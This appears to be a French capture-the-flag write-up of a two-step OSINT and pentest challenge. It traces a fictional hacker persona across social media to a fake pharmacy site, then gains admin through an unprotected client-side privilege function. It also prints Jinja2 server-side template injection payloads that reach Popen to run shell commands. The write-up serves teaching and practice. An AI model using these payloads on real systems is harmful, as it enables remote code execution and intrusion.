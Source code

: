 # RedTeam
#### _OSINT + Pentest_

### Étape n°1

**Énoncé** : _I setup a website to challenge your skill as a pentester
Find me over the Internet as I stand by the nickname Zer0DayH4ckz0r
If you reach my website you should be able to gain control of a server
You will then need to go deeper and find a pivot
Finally if your are good enough you will send me my own password as a NTLM hash
Good luck!_

Notre objectif est donc de trouver le site de ce fameux Zer0DayH4ckz0r, on tape alors ce pseudo sur Google. On tombe sur le [compte Twitter](https://twitter.com/Zer0DayH4ckz0r) du "hacker". En descandant tout en bas de la liste de ses tweets, on tombe sur ce message : 

![](twitter.png)
On a donc le [compte Github](https://github.com/Zer0DayH4ckz0r) du hacker. On regarde ses dépôts et on remarque qu'ils viennent tous de dépôts externes. En regardant les commits du hacker sur ses dépôts, on tombe sur quelque chose de très intéressant :

![](github.png)
On s'empresse d'essayer ces identifiants sur Instagram mais ça ne fonctionne pas, on tape alors le pseudo du hacker sur Instagram et on tombe sur son [compte](https://www.instagram.com/zer0dayjld/) : 

![](instagram.png)
On regarde toutes ses photos et leur description mais il n'y a rien d'intéressant aux premiers abords. En regardant de plus près, on remarque une photo sur laquelle on peut voir des écrans :

![](photo_insta.png)
On tape le nom "PharmaHealthyCat" sur Google et on tombe sur un [compte Linkedin](https://www.linkedin.com/company/pharmahealthycat/about/). En lisant sa description, on comprend vite que c'est un faux compte, ce qui montre que l'on est sur la bonne piste. On se rend sur le site web de cette "pharmacie". En allant dans la catégorie "Blog", on tombe sur le post suivant : 
```Flag```
```Good Job the flag is RUNXe04xY2tONG1lXzFzX0cwT2RfSWZfWTB1X0Qwbid0X1RocjB3fQ==```

**FLAG** : ECW{N1ckN4me_1s_G0Od_If_Y0u_D0n't_Thr0w}

### Étape n°2

**Énoncé** : _You found the website, this is a good start,
Now you need to get in!_

![](website.png)

En regardant le code source de toutes les pages du site, on tombe sur un fichier javascript très intéressant, et notamment ce bout de code :
```js
function submit3(id_user) { // eslint-disable-line no-unused-vars
  $.ajax({
    type: 'POST',
    url: '/home/users',
    dataType: 'json',
    data: {"id_user":id_user},
    success: function(result) {
      if (result == 'duplicate') {
        const message = 'You are not admin man !';
        alertify.notify(message, 'error', 5);
      } else {
        alertify.notify('User privileges successfuly changed', 'success', 5);
        window.location.reload(true);
      }
    },
    error: function(result) {
      const message = 'You are not admin man !';
      alertify.notify(message, 'error', 5);
    },
  });
}
```
Cette fonction est particulièrement intéressante car elle permet de modifier les privilèges d'un utilisateur. On trouve aussi, grâce à l'outil [dirb](https://www.kali.org/tools/dirb/) le path ```/home/users```, qui permet de récupérer la liste des utilisateurs. En regardant dans le code source, on trouve notre identifiant : 
![](id.png)
Il ne nous reste plus qu'à utilisater la console de notre navigateur et d'appeler la fonction submit3 avec notre identifiant pour devenir administrateur.

Une fois administrateur, une nouvelle partie du site nous est proposée : 
![](admin.png)
Après avoir regarder les sections "Add Blog Post" et "Modify Users" qui ne donnent rien, on s'intéresse à "Template Builder". On identifie une SSTI (Server Side Template Injection) en tapant {{7*7}} qui s'exécute sur le template créé. On identifie la technologie utilisée grâce à cette image : 
![](ssti.png)
Il s'agit de Jinja2. On injecte alors du code permettant de récupérer des informations puis de lire le flag.
```python
{{ ''.__class__.__mro__[2].__subclasses__() }}
{{ ''.__class__.__mro__[1].__subclasses__()[417]("ls",stdout = -1, shell=True).communicate() }}
{{ ''.__class__.__mro__[1].__subclasses__()[417]("cat flag.txt",stdout = -1, shell=True).communicate() }}
```
La première ligne sert à connaître l'index de la classe ```Popen``` dans la liste des classes de Python. La deuxième nous permet de lancer la commande ```ls``` sur la machine cible et la troisième nous permet de lire le flag.

**FLAG** : ECW{EaSy_P4rt_D0ne_C0ngratz}

**Il y avait pour ce challenge deux autres parties que je n'ai pas pu finir avant la fin de l'épreuve.**



